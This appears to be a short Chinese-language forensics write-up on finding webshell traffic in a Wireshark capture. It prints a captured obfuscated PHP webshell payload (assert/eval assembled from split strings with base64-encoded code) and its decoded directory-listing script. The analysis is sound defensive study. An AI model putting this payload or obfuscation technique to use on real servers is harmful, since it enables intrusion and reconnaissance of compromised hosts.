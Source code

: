 wireshark抓包，筛选http请求，找webshell的POST请求，追踪http流

![12](/medias/webshell/12.png)

这一大坨payload

```php
array_map("ass"."ert",array("ev"."Al(\"\\\$xx%3D\\\"Ba"."SE6"."4_dEc"."OdE\\\";@ev"."al(\\\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7JEQ9J%2Bato%2BWcqOi9veWFpeWfuuacrOS%2FoeaBry4uLlxcJzskRj1Ab3BlbmRpcigkRCk7aWYoJEY9PU5VTEwpe2VjaG8oIkVSUk9SOi8vIFBhdGggTm90IEZvdW5kIE9yIE5vIFBlcm1pc3Npb24hIik7fWVsc2V7JE09TlVMTDskTD1OVUxMO3doaWxlKCROPUByZWFkZGlyKCRGKSl7JFA9JEQuJy8nLiROOyRUPUBkYXRlKCJZLW0tZCBIOmk6cyIsQGZpbGVtdGltZSgkUCkpO0AkRT1zdWJzdHIoYmFzZV9jb252ZXJ0KEBmaWxlcGVybXMoJFApLDEwLDgpLC00KTskUj0iXHQiLiRULiJcdCIuQGZpbGVzaXplKCRQKS4iXHQiLiRFLiJcbiI7aWYoQGlzX2RpcigkUCkpJE0uPSROLiIvIi4kUjtlbHNlICRMLj0kTi4kUjt9ZWNobyAkTS4kTDtAY2xvc2VkaXIoJEYpO307ZWNobygiWEBZIik7ZGllKCk7'));\");"));
```

格式化分析一下，格式类似`eval("\$xx=\"BaSE64_dEcOdE\";@eval(\$xx('base64编码内容'));");`，动态调用assert,eval函数，执行base64编码的内容

::: danger
太露骨啦（捂脸）
:::

```php
@ini_set("display_errors","0");
@set_time_limit(0);
if(PHP_VERSION<'5.3.0'){@set_magic_quotes_runtime(0);};
echo("X@BY");
$D="..."; // 这里是加密的路径
$F=@opendir($D);
if($F==NULL){
    echo("ERROR:// Path Not Found Or No Permission!");
} else {
    $M=NULL;
    $L=NULL;
    while($N=@readdir($F)){
        $P=$D.'/'.$N;
        $T=@date("Y-m-d H:i:s",@filemtime($P));
        @$E=substr(base_convert(@fileperms($P),10,8),-4);
        $R="\t".$T."\t".@filesize($P)."\t".$E."\n";
        if(@is_dir($P)) $M.=$N."/".$R;
        else $L.=$N.$R;
    }
    echo $M.$L;
    @closedir($F);
}
echo("X@BY");
die();
```
